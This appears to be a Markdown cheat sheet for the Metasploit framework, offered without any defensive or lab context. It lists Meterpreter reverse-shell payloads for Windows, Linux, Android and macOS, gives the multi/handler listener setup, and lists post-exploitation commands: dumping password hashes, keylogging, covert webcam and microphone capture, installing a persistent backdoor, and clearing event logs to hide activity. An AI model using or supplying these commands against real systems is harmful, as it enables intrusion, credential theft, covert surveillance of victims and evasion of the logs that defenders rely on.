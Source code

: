 
---

## 🧪 Common Meterpreter Payloads (used with MSFvenom)


| Payload                             | Description                                    |
| ----------------------------------- | ---------------------------------------------- |
| `windows/meterpreter/reverse_tcp`   | Connects back to attacker (reverse shell)      |
| `windows/meterpreter/bind_tcp`      | Opens a port and waits for attacker to connect |
| `linux/x86/meterpreter/reverse_tcp` | Meterpreter shell for Linux systems            |
| `android/meterpreter/reverse_tcp`   | Meterpreter for Android devices                |
| `osx/x64/meterpreter_reverse_tcp`   | macOS Meterpreter payload                      |

---

## 🔗 Start Metasploit Listener

```
msfconsole
```

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
run

## Meterpreter Command Reference

### System Info & Navigation

|Command|Description|
|---|---|
|`sysinfo`|Get system information|
|`getuid`|Display current user|
|`ps`|List running processes|
|`cd`, `ls`, `pwd`|Navigate the filesystem|
|`download <file>`|Download file from target|
|`upload <file>`|Upload file to target|
|`cat <file>`|Read file contents|
## Process & Session Management

|Command|Description|
|---|---|
|`migrate <pid>`|Migrate to another process|
|`background`|Background the session|
|`sessions -l`|List all active sessions|
|`sessions -i <id>`|Interact with a session|
## Privilege Escalation
|Command|Description|
|---|---|
|`getprivs`|List available privileges|
|`getsystem`|Attempt to elevate privileges|
|`run post/windows/gather/hashdump`|Dump password hashes (Windows)|
## Keylogging & Screenshots

|Command|Description|
|---|---|
|`keyscan_start`|Start keylogger|
|`keyscan_dump`|Dump keystrokes|
|`screenshot`|Take a screenshot|
## Persistence & Backdoors

|Command|Description|
|---|---|
|`persistence -X -i 30 -p 4444 -r <LHOST>`|Install persistent backdoor|
|`run persistence`|Run persistence script|
## Webcam & Microphone

|Command|Description|
|---|---|
|`webcam_list`|List available webcams|
|`webcam_snap`|Take webcam snapshot|
|`record_mic`|Record audio from mic (if supported)|
## Fileless Execution
```
use exploit/windows/smb/psexec
```

📌 Tips
Always migrate to a stable process (e.g., explorer.exe)

Use clearev to remove event logs (stealth)

Combine with meterpreter scripts or post modules for automation

## Exit and Cleanup
```
exit -y
```
























